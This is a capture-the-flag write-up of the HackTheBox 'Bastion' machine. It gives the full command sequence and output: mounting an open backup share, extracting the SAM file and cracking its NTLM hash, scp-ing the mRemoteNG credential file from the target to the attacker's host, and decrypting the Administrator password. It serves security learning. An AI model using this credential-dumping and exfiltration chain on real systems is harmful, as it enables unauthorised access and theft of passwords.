hackthebox Bastion
Released: 27th April 2019 / Pwned: May 25th 2019 - [+] Solved whilst Active

Bastion is fun! It's a simple but realistic box that I thought was designed really well.
1) Nmap
Initial scan:
nmap -sC -sV -O -oN nmap/initial.txt 10.10.10.134
-sC default scripts
-sV service enumeration
-O OS detection
-oN default output
Results:
root@gotham:~/ctf/bastion# mkdir nmap
root@gotham:~/ctf/bastion# nmap -sC -sV -O -oN nmap/initial.txt 10.10.10.134
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-22 10:35 BST
Nmap scan report for 10.10.10.134
Host is up (0.040s latency).
Not shown: 996 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey:
| 2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
| 256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_ 256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
...
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.33 seconds
The first service to check is netbios-ssn on port 139, and look for any files.
2) netbios
Have a look at the network shares using smbclient, and connect to the Backups share. There's a note...
root@gotham:~/ctf/bastion/139smb# smbclient -L 10.10.10.134
Enter WORKGROUP\roots password:
Sharename Type Comment
--------- ---- -------
ADMIN$ Disk Remote Admin
Backups Disk
C$ Disk Default share
IPC$ IPC Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.134 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Failed to connect with SMB1 -- no workgroup available
root@gotham:~/ctf/bastion/139smb# smbclient //10.10.10.134/Backups
Enter WORKGROUP\root's password:
Try "help" to get a list of possible commands.
smb: \> ls
. D 0 Wed May 22 14:00:46 2019
.. D 0 Wed May 22 14:00:46 2019
note.txt AR 116 Tue Apr 16 11:10:09 2019
remotenote.txt A 116 Wed May 22 13:51:55 2019
WindowsImageBackup D 0 Fri Feb 22 12:44:02 2019
7735807 blocks of size 4096. 2780226 blocks available
smb: \> get note.txt
getting file \note.txt of size 116 as note.txt (0.7 KiloBytes/sec) (average 0.7 KiloBytes/sec)
smb: \> exit
root@gotham:~/ctf/bastion/139smb# cat note.txt
Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.
note.txt is a hint that you shouldn't try to download any files from the share, as you'll struggle when it comes to the larger ones. Instead, I think the creator intends for you to network mount the share and browse it remotely.
3) Mount netbios share & browse
Network mount the share using mount -t cifs. There's no password required because NULL sessions are enabled.
You might have to apt install cifs-utils to be able to mount the share (I did).
root@gotham:~/ctf/bastion/139smb# mkdir /mnt/bastionBackups
root@gotham:~/ctf/bastion/139smb# mount -t cifs //10.10.10.134/Backups /mnt/bastionBackups
Password for root@//10.10.10.134/Backups:
Browsing the mounted samba share, you see that there's a windows backup.
root@gotham:~/ctf/bastion/139smb# cd /mnt/bastionBackups/
root@gotham:/mnt/bastionBackups# ls
note.txt SDT65CB.tmp WindowsImageBackup
root@gotham:/mnt/bastionBackups# cd WindowsImageBackup/
root@gotham:/mnt/bastionBackups/WindowsImageBackup# ls
L4mpje-PC
root@gotham:/mnt/bastionBackups/WindowsImageBackup# cd L4mpje-PC/
root@gotham:/mnt/bastionBackups/WindowsImageBackup/L4mpje-PC# ls
'Backup 2019-02-22 124351' Catalog MediaId SPPMetadataCache
root@gotham:/mnt/bastionBackups/WindowsImageBackup/L4mpje-PC# cd Backup\ 2019-02-22\ 124351/
root@gotham:/mnt/bastionBackups/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351# ls -l
total 5330560
-rwxr-xr-x 1 root root 37761024 Feb 22 12:44 9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd
-rwxr-xr-x 1 root root 5418299392 Feb 22 12:45 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd
-rwxr-xr-x 1 root root 1186 Feb 22 12:45 BackupSpecs.xml
-rwxr-xr-x 1 root root 1078 Feb 22 12:45 cd113385-65ff-4ea2-8ced-5630f6feca8f_AdditionalFilesc3b9f3c7-5e52-4d5e-8b20-19adc95a34c7.xml
-rwxr-xr-x 1 root root 8930 Feb 22 12:45 cd113385-65ff-4ea2-8ced-5630f6feca8f_Components.xml
-rwxr-xr-x 1 root root 6542 Feb 22 12:45 cd113385-65ff-4ea2-8ced-5630f6feca8f_RegistryExcludes.xml
-rwxr-xr-x 1 root root 2894 Feb 22 12:45 cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer4dc3bdd4-ab48-4d07-adb0-3bee2926fd7f.xml
-rwxr-xr-x 1 root root 1488 Feb 22 12:45 cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer542da469-d3e1-473c-9f4f-7847f01fc64f.xml
-rwxr-xr-x 1 root root 1484 Feb 22 12:45 cd113385-65ff-4ea2-8ced-5630f6feca8f_Writera6ad56c2-b509-4e6c-bb19-49d8f43532f0.xml
-rwxr-xr-x 1 root root 3844 Feb 22 12:45 cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerafbab4a2-367d-4d15-a586-71dbb18f8485.xml
-rwxr-xr-x 1 root root 3988 Feb 22 12:45 cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerbe000cbe-11fe-4426-9c58-531aa6355fc4.xml
-rwxr-xr-x 1 root root 7110 Feb 22 12:45 cd113385-65ff-4ea2-8ced-5630f6feca8f_Writercd3f2362-8bef-46c7-9181-d62844cdc0b2.xml
-rwxr-xr-x 1 root root 2374620 Feb 22 12:45 cd113385-65ff-4ea2-8ced-5630f6feca8f_Writere8132975-6f93-4464-a53e-1050253ae220.xml
On the share there's a 5gb virtual hard disk (vhd) which I'm guessing is the backed-up file system.
You can network mount this .vhd file too.
Make a directory to mount it to in /mnt and mount it using guestmount.
For guestmount you might need to install lifguestfs-tools - apt install libguestfs-tools
root@gotham:/mnt/bastionBackups/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351# mkdir /mnt/vhd2
root@gotham:/mnt/bastionBackups/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351# guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --ro /mnt/vhd2 -m /dev/sda1
cd to /mnt/vhd2 to browse the virtual hard disk.
4) SAM
This .vhd is a backup of the filesystem and not a currently running OS, which means that we can access Windows' SAM file which stores system passwords.
Whilst browsing the .vhd, get the SAM and SYSTEM files - they're located in Windows/System32/config/
root@gotham:/mnt/vhd2/Windows/System32/config# cp SAM ~/ctf/bastion/
root@gotham:/mnt/vhd2/Windows/System32/config# cp SYSTEM ~/ctf/bastion
Retrieve the hashes from the SAM file using samdump2
root@gotham:/mnt/vhd2/Windows/System32/config# cd ~/ctf/bastion/
root@gotham:~/ctf/bastion# samdump2 SYSTEM SAM
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
root@gotham:~/ctf/bastion# samdump2 SYSTEM SAM > samHashes.txt
Here, the password hash is the last part of the entry e.g. L4mpje's password hash is → 26112010952d963c8dc4217daec986d9
Copy paste that into its own file - l4mpjeHash.txt
The hash is an NTLM / NTHash, so find its ID in hashcat and then crack it.
Alternatively, just hashkiller :) - https://hashkiller.co.uk/Cracker/NTLM
root@gotham:~/ctf/bastion# hashcat -h | grep -i lm
5500 | NetNTLMv1 | Network Protocols
5500 | NetNTLMv1+ESS | Network Protocols
5600 | NetNTLMv2 | Network Protocols
3000 | LM | Operating Systems
1000 | NTLM | Operating Systems
root@gotham:~/ctf/bastion# hashcat -m 1000 -a 3 l4mpjeHash.txt /usr/share/wordlists/rockyou.txt
26112010952d963c8dc4217daec986d9:bureaulampje
Login to the target via SSH, which we learnt was running on the target from nmap, and get user.txt :)
root@gotham:~/ctf/bastion# ssh L4mpje@10.10.10.134
L4mpje@10.10.10.134s password: bureaulampje
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
l4mpje@BASTION C:\Users\L4mpje>dir
Volume in drive C has no label.
Volume Serial Number is 0CB3-C487
Directory of C:\Users\L4mpje
22-02-2019 14:50 <DIR> .
22-02-2019 14:50 <DIR> ..
22-02-2019 16:26 <DIR> Contacts
22-02-2019 16:27 <DIR> Desktop
22-02-2019 16:26 <DIR> Documents
22-02-2019 16:26 <DIR> Downloads
22-02-2019 16:26 <DIR> Favorites
22-02-2019 16:26 <DIR> Links
22-02-2019 16:26 <DIR> Music
22-02-2019 16:26 <DIR> Pictures
22-02-2019 16:26 <DIR> Saved Games
22-02-2019 16:26 <DIR> Searches
22-02-2019 16:26 <DIR> Videos
0 File(s) 0 bytes
13 Dir(s) 11.361.738.752 bytes free
l4mpje@BASTION C:\Users\L4mpje>cd Desktop
l4mpje@BASTION C:\Users\L4mpje\Desktop>dir
Volume in drive C has no label.
Volume Serial Number is 0CB3-C487
Directory of C:\Users\L4mpje\Desktop
22-02-2019 16:27 <DIR>
22-02-2019 16:27 <DIR> ..
23-02-2019 10:07 32 user.txt
1 File(s) 32 bytes
2 Dir(s) 11.361.738.752 bytes free
l4mpje@BASTION C:\Users\L4mpje\Desktop>type user.txt
9bfe5...
5) Privesc
Have a look at the programs installed.
root@gotham:~/ctf/bastion# ssh L4mpje@10.10.10.134
L4mpje@10.10.10.134s password: bureaulampje
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
l4mpje@BASTION C:\Users\L4mpje>cd ..\..
l4mpje@BASTION C:\>dir
Volume in drive C has no label.
Volume Serial Number is 0CB3-C487
Directory of C:\
23-05-2019 12:46 <DIR> Backups
12-09-2016 13:35 <DIR> Logs
22-02-2019 15:42 <DIR> PerfLogs
16-04-2019 12:18 <DIR> Program Files
22-02-2019 15:01 <DIR> Program Files (x86)
22-02-2019 14:50 <DIR> Users
23-02-2019 10:38 <DIR> Windows
0 File(s) 0 bytes
7 Dir(s) 11.429.576.704 bytes free
l4mpje@BASTION C:\>cd "Program Files (x86)"
l4mpje@BASTION C:\Program Files (x86)>dir
Volume in drive C has no label.
Volume Serial Number is 0CB3-C487
Directory of C:\Program Files (x86)
22-02-2019 15:01 <DIR> .
22-02-2019 15:01 <DIR> ..
16-07-2016 15:23 <DIR> Common Files
23-02-2019 10:38 <DIR> Internet Explorer
16-07-2016 15:23 <DIR> Microsoft.NET
22-02-2019 15:01 <DIR> mRemoteNG
23-02-2019 11:22 <DIR> Windows Defender
23-02-2019 10:38 <DIR> Windows Mail
23-02-2019 11:22 <DIR> Windows Media Player
16-07-2016 15:23 <DIR> Windows Multimedia Platform
16-07-2016 15:23 <DIR> Windows NT
23-02-2019 11:22 <DIR> Windows Photo Viewer
16-07-2016 15:23 <DIR> Windows Portable Devices
16-07-2016 15:23 <DIR> WindowsPowerShell
0 File(s) 0 bytes
14 Dir(s) 11.429.576.704 bytes free
What is mRemoteNG?
https://mremoteng.org/ - it appears to be an organiser of all your remote connections.
searchsploit doesn't have anything.
root@gotham:~/ctf/bastion# searchsploit mRemoteNG
Exploits: No Result
Shellcodes: No Result
But google provides where searchsploit doesn't - “mRemoteNG exploit�.
https://www.rapid7.com/db/modules/post/windows/gather/credentials/mremote
There's a metapsloit module to decrypt passwords from the application. I have no idea whether this works, I didn't try it because I didn't have a meterpreter session on the system and because it's a pain to get one since (according to metasploit) there's no powershell on the target.
More google results:
https://old.reddit.com/r/mRemoteNG/comments/66hzoe/mremoteng_password_storage_is_insecure/ - links to - http://hackersvanguard.com/mremoteng-insecure-password-storage/ which provides a handy tutorial on how to extract passwords from the program using its own portable GUI application.
The config file, which holds all the connections and their passwords for mRemoteNG, is stored in C:\Users\<username>\AppData\Roaming\mRemoteNG\confCons.xml
5
a) Transfer confCons.xml
The output of my ssh shell to the windows target was odd (this might be normal? it had huge strings of spaces after each line) so I used scp to transfer the confCons.xml file to my kali machine.
If you try copy/paste the content of confCons.xml with this weirdly formatted windows shell, the xml formatting will be all wrong because of all the newlines and the none of the tools will work (for me they didn't, anyway).
Configure ssh on kali so that scp will work:
Allow for root login using password by editing /etc/ssh/sshd_config to include PermitRootLogin yes and restart the service.
root@gotham:~/ctf/bastion# nano /etc/ssh/sshd_config
...
# Authentication:
#LoginGraceTime 2m
PermitRootLogin yes
#StrictModes yes
#MaxAuthTries 6
#MaxSessions 10
...
root@gotham:~/ctf/bastion# service ssh restart
Now we can scp as root.
Navigate to where the confCons.xml file is - C:\Users\L4mpje\AppData\Roaming\mRemoteNG and scp it to your attacking machine.
l4mpje@BASTION C:\>cd Users\L4mpje\AppData\Roaming\mRemoteNG
l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming\mRemoteNG>dir /a
Volume in drive C has no label.
Volume Serial Number is 0CB3-C487
Directory of C:\Users\L4mpje\AppData\Roaming\mRemoteNG
22-02-2019 15:03 <DIR> .
22-02-2019 15:03 <DIR> ..
22-02-2019 15:03 6.316 confCons.xml
22-02-2019 15:02 6.194 confCons.xml.20190222-1402277353.backup
22-02-2019 15:02 6.206 confCons.xml.20190222-1402339071.backup
22-02-2019 15:02 6.218 confCons.xml.20190222-1402379227.backup
22-02-2019 15:02 6.231 confCons.xml.20190222-1403070644.backup
22-02-2019 15:03 6.319 confCons.xml.20190222-1403100488.backup
22-02-2019 15:03 6.318 confCons.xml.20190222-1403220026.backup
22-02-2019 15:03 6.315 confCons.xml.20190222-1403261268.backup
22-02-2019 15:03 6.316 confCons.xml.20190222-1403272831.backup
22-02-2019 15:03 6.315 confCons.xml.20190222-1403433299.backup
22-02-2019 15:03 6.316 confCons.xml.20190222-1403486580.backup
22-02-2019 15:03 51 extApps.xml
22-02-2019 15:03 5.217 mRemoteNG.log
22-02-2019 15:03 2.245 pnlLayout.xml
22-02-2019 15:01 <DIR> Themes
14 File(s) 76.577 bytes
3 Dir(s) 11.427.184.640 bytes free
l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming\mRemoteNG>scp confCons.xml root@10.10.13.120:/root/ctf/bastion/
The authenticity of host '10.10.13.120 (10.10.13.120)' can't be established.
ECDSA key fingerprint is SHA256:C4gz1fWDA/kH7ayYtaadZsdmwzuGbXelo3WWAbOGZPs.
Are you sure you want to continue connecting (yes/no)?
Warning: Permanently added '10.10.13.120' (ECDSA) to the list of known hosts.
root@10.10.13.120's password:
confCons.xml 100% 6316 98.7KB/s 00:00
5b) Extract passwords from confCons.xml using mRemoteNG Portable
mRemoteNG is a windows only program. I used a windows 10 machine because windows 7 required .NET.
Download the portable version of the app, extract etc. - https://mremoteng.org/download
Boot mRemoteNG once, then close it.
Inside mRemoteNG's folder you'll see a confCons.xml file.

It should look like this:

(the Protected value changes every time)
Open mRemoteNG and add a new connection with random junk data.


Your confCons.xml file should now look like this, with your newly input connection configuration in it:

Now you have the format of the xml file in which you can dump the mRemoteNG configurations from the Bastion box.
Close mRemoteNG.
Copy/paste the configurations (both the <Node values) from Bastion's confCons.xml file:

into mRemoteNG's confCons.xml file and save it.
Open up mRemoteNG again and you should see 2 connections.

Tools > External Tools

Create a ‘tool’ to extract the password:

If you've read the config file you'll notice that the DC connection uses the username Administrator, so try extracting the password from the DC config.
Right click DC > External Tools > password revealer

And you'll get a password.

ssh in as Administrator...
root@gotham:~/ctf/bastion# ssh Administrator@10.10.10.134
Administrator@10.10.10.134s password: thXLHM96BeKL0ER2
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
administrator@BASTION C:\Users\Administrator>
And we're root! :)
administrator@BASTION C:\Users\Administrator>dir
Volume in drive C has no label.
Volume Serial Number is 0CB3-C487
Directory of C:\Users\Administrator
25-04-2019 06:08 <DIR> .
25-04-2019 06:08 <DIR> ..
23-02-2019 10:40 <DIR> Contacts
23-02-2019 10:40 <DIR> Desktop
23-02-2019 10:40 <DIR> Documents
23-02-2019 10:40 <DIR> Downloads
23-02-2019 10:40 <DIR> Favorites
23-02-2019 10:40 <DIR> Links
23-02-2019 10:40 <DIR> Music
23-02-2019 10:40 <DIR> Pictures
23-02-2019 10:40 <DIR> Saved Games
23-02-2019 10:40 <DIR> Searches
23-02-2019 10:40 <DIR> Videos
0 File(s) 0 bytes
13 Dir(s) 11.369.656.320 bytes free
administrator@BASTION C:\Users\Administrator>cd Desktop
administrator@BASTION C:\Users\Administrator\Desktop>type root.txt
95885...